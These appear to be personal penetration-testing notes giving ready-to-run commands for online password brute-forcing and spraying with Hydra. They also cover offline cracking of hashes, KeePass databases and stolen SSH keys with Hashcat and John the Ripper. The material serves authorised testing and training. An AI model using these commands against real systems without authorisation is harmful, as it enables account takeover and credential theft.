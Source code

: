 ### Hydra
Principle here is to gather a username by some other enumeration method. If none can be found then be sure to try `Administrator` on Windows and `root` on Linux.
```bash
cd /usr/share/wordlists/rockyou.txt; sudo gzip -d rockyou.txt.gz
hydra -l <candidate username> -P /usr/share/wordlists/rockyou.txt -s <target port> ssh://<target IP>
```
Assuming you have secured a valid password by some other means but without a username you can leverage _password spraying_.
```bash
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "lolzageVerySecurity" rdp://<target IP>
```
Hitting an HTTP endpoint:
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt <target IP> http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
Hitting a page using http basic auth:
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target IP> http-get
```

### Hashcat
Standard `hashcat` usage:
```bash
hashcat crackable.txt /usr/share/wordlists/rockyou.txt
```
For debugging a new rule:
```bash
head /usr/share/wordlists/rockyou.txt > demo.txt
hashcat -r newrule.rule --stdout demo.txt
```
See https://hashcat.net/wiki/doku.php?id=rule_based_attack for docs on the syntax for rules based attacks. Spaces separate discrete instructions to apply to one word. Newlines define a new pattern to attempt. Save it in a `.rules` file.
```bash
hashcat -m <insert hashing algo id here (0 for md5)> crackme.txt /usr/share/wordlists/rockyou.txt -r nonsense.rule --force
```

All of the above is kinda cringe though. Just make use of a rulefile thats been crafted for us:
```bash
hashcat -m 0 crackable.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```


### Hashid
Hashcat seems to kinda suck at identifying the hash in use for some reason. Fortunately `hashid` doesn't. Nb. take care to use quotes, particularly if your hash starts with a `$` or other syntactically important character.
```bash
hashid "$2y$10$XrrpX8RD6IFvBwtzPuTlcOqJ8kO2px2xsh17f60GZsBKLeszsQTBC"
```

### keepass2john
```bash
keepass2john allTehS3cre75.kdbx > keepass.hash
```
Be sure to drop the username and colon that is prepended to `keepass.hash`. Hashcat will parse it as a salt and get sad otherwise.
```bash
hashcat -h | grep KeePass | awk -F ' ' '{print $1}' 
hashcat -m <output of the above> keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

### JohnTheRipper
In the event that Hashcat isn't working for whatever reason, consider making use of John:
```bash
john --wordlist=<password list> --rules=<rule Name> <our Hash>
```
Nb. with rules passed to John we can use the same syntax as with Hashcat, however we must prepend the file with:
```
[List.Rules:<rule Name>]
```
and we must be sure to add the rule file to the John config:
```bash
sudo sh -c 'cat /home/kali/Downloads/ssh.rule >> /etc/john/john.conf'
```

If we have an `id_rsa` file that we've managed to dump via some means (eg. path traversal in an http server) the we must first make it digestible for John:
```bash
ssh2john id_rsa > ssh.hash
```
nb. if we want to later log in to the SSH server using the credentials we've just recovered we may need to go ahead and `chmod` the private key file. Try both 600 and 400.